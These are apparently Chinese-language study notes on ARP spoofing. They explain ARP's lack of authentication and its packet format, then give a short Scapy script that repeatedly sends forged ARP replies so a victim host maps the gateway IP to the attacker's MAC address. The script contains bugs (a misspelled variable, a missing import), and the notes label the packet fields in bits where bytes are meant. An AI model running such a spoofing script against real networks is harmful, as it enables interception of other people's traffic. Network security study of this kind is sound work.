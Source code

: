 #### 欺骗-总览

```python
篡改数据
伪造数据
```

#### 欺骗-ARP协议原理&缺陷&数据包格式

```python
ARP的主要原因是以太网中使用的设备交换机不能识别IP地址，只能识别硬件地址
在交换机中内容寻址寄存表(CAM),该表列出了交换机每个端口所连接设备的硬件地址
当交换机收到一个发往特定硬件地址的数据包，就首先从表中查找对应表项，有的话就直接发往端口
软件使用的是IP地址，交换机使用的是硬件地址，故在软件将数据包交给交换机之前，会发生IP与硬件地址的转换
支持ARP的主机中有一个ARP表，该表中保存了已知的IP与硬件地址的对应关系，同样的，优先找表中有无对应表项，没有的话就会产生一个ARP广播，广播给网段中的所有设备，目标主机回应后，将新的表项添加到ARP表中
但缺少认证机制
故ARP表可能被脏，可能冒充
**************************************************************
ARP数据包格式
    以太网目的地址，6位
    以太网源地址，6位
    帧类型，2位
    硬件类型，2位
    协议类型，2位
    硬件地址长度，1位
    协议地址长度，1位
    op，2位
    发送端以太网地址，6位
    发送端IP地址，4位
    目的以太网地址，6位
    目的IP地址，4位
```

#### 欺骗-ARP欺骗

```python
arpspoof
**************************************************************
#构造数据包
#源IP地址：192.168.169.2(网关的IP地址)
#源硬件地址：00:00:11:22:33:44(kali的硬件地址)
#目标IP地址：192.168.169.3(要欺骗主机的IP地址)
#目标硬件地址：00:00:44:33:22:11
#ARP类型：request
#Scapy
#ls(ARP)
#op=1
#gatewayIP="192.168.169.2"
#victimIP="192.168.169.3"
#ls(Ether)
#srcMAC="00:00:11:22:33:44"
#dstMAC="00:00:44:33:22:11"
#sendp(Ether(dst=dstMAC,src=srcMAC)/ARP(psrc=gatewayIP,pdst=vimtimIP))
**************************************************************
import sys
from scapy.all import sendp,ARP,Ether
if len(sys.argv) !=3:
    print sys.argv[0] + ": <target><spoof_ip>"
    sys.exit(1)
victimIP=sys.argv[1]
gatewayIP=sys.argv[2]
packet=Ether()/ARP(psrc=gatewayIP,pdst=vimtimIP)
while 1:
    sendp(packet)
    time.sleep(10)
```